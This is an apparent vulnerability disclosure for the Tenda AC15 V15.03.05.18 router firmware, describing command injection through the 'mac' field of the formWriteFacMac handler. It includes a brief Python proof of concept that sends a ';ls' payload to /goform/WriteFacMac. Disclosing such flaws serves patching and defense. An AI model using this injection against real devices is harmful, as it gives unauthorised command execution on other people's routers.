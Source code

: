 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `v3` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.

![image-20240314223205430](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314223205430.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";ls"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314212024903](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314212024903.png)
